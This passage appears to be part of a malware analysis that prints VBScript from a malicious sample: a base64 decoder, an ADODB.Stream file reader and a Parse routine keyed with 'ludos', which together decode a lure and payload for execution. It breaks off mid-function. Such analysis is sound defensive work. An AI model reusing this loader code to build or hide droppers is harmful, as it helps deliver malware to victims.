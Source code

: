 <h4>The algorithm used for decode the lure and the payload, use multiple character replacement and extraction, bitwise operations and convert each characters for getting the payload.</h4>

```vb
Function Decode(ByVal DataArg)
  Const base = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
  Dim lim, result, i
  DataArg = Replace(DataArg, vbCrLf, "")
  DataArg = Replace(DataArg, vbTab, "")
  DataArg = Replace(DataArg, " ", "")
  lim = Len(DataArg)
  If lim Mod 4 <> 0 Then
    Err.Raise 1, "DpwH56HIF7", "Bad base string."
    Exit Function
  End If
  For i = 1 To lim Step 4
    Dim val, j, t, offset, tmp, c
    val = 3
    tmp = 0
    For j = 0 To 3
      t = Mid(DataArg, i + j, 1)
      If t = "=" Then
        val = val - 1
        offset = 0
      Else
        offset = InStr(1, base, t, vbBinaryCompare) - 1
      End If
      If offset = -1 Then
        Err.Raise 2, "DpwH56HIF7", "Bad character In base string."
        Exit Function
      End If
      tmp = 64 * tmp + offset
    Next
    tmp = Hex(tmp)
    tmp = String(6 - Len(tmp), "0") & tmp
    c = Chr(CByte("&H" & Mid(tmp, 1, 2))) +  Chr(CByte("&H" & Mid(tmp, 3, 2))) +  Chr(CByte("&H" & Mid(tmp, 5, 2)))
    result = result & Left(c, val)
  Next
  Decode = result
End Function
```

<h4>The next functions are used for parse, decode the encoded data of the payload to execute and read the file writes on the disk.</h4>

```vb
Function ReadStream(Object_input)
	  Dim StreamObj
	  Set StreamObj = CreateObject("ADODB.Stream")
	  StreamObj.Type = 1
	  StreamObj.Open
	  StreamObj.LoadFromFile Object_input
	  ReadStream = StreamObj.Read
	  Set StreamObj = Nothing
End Function
Function Parse(arg) ' Fix 
	Dim tmp, i, result
	For i = 1 To Len(arg) Step 32
		tmp = Mid(arg, i, 32)
		result = result & DecodeString(tmp, "ludos")
	Next
	Parse = result
End Function
Function DecodeString(arg1, arg2)
```